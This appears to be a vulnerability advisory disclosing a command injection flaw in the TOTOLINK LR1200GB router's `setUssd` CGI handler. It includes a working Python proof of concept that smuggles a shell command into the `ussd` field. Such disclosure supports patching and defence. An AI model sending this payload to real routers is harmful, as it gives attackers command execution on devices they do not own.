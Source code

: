 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setUssd` handler function of  `cstecgi.cgi`. The value of the `ussd` parameter will be spliced ​​into the `cli_atc AT+CUS....` and be excuted by `system` function, which allows an attacker to excute any command.
![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "ussd":"\";ps;#",
    "topicurl":"setUssd",
    "token":"00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
